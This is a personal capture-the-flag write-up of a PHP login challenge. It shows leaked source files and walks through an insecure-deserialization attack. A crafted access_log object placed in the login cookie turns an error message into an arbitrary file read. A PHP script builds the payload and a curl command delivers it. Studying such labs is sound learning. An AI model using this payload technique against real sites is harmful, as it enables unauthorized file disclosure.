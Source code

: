 #Description 
	Try to recover the flag stored on this website


At the time of me writing this, this challenge was definitely above my skill level. I was able to get the first step into understanding the challenge, but wasn't able to get the flag on my own. I am going to write up the full process to gain a better understanding of what was going on here, and how to get a challenge like this in the future.

This challenge opens up to just a plain login page, with zero instructions. After running through a bunch of different ideas to no avail, i checked robots.txt and found that there was an unlisted page called admin.phps. You weren't able to get to that page. After this discovery though I tried adding an s to the other php pages I knew of, and was able to pull source code from index.phps.

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

This contains a few really great clues, and I decided to try the worst possible one first. I tried some SQL injection on the login page since I now know it's using SQL to pull from a database called "users". This didn't work, so I went to the cookie.phps and authentication.phps pages referenced in this code.

cookie.phps 

```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

authentication.phps 

```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

This is where I got stuck. I had an idea of what I was trying to do, but couldn't see the exact vulnerability where I could get a flag. But, I think this was a great challenge, so let's continue so I can have a better idea of how this worked.

the most important part of this has to do with the login cookie. This chunk of code takes the login cookie and deserializes it into the $perm variable to set the permissions.

```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

however, if it fails it will print the $perm variable. The vulnerability is in the tostring function. 

```
function __toString() {
		return $this->read_log();
	}
```

apparently, toString is a popular PHP method that overrides regular PHP behavior, and it gets called when the object is converted into a string. This means if we get $perm to be our custom variable, we can have file read. 

To do this we have to make a custom acces_log object where we set log_file to ../flag. This can be done with a php script, here's one I found in a write up.

```
<?php 

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    class permissions
    {
    public $username;
    public $password;

        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }
    }

    $serialized = serialize(new access_log('../flag'));
    $encoded = urlencode(base64_encode($serialized));

    var_dump($encoded);

    $perm = unserialize(base64_decode(urldecode($encoded)));

    var_dump($perm);
?>
```

after that it's simply passing in the serialized and encoded login cookie through a curl command. 

```
curl -v --cookie 'login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9'
```

This creates the error, which prints the $perm variable, which is our custom access log object that exploits toString in order to print out ../flag.

This was my first foray into PHP and reverse engineering somewhat complex blocks of it. I definitely wouldn't have gotten this on my own, but I feel a little bit better about PHP moving onwards.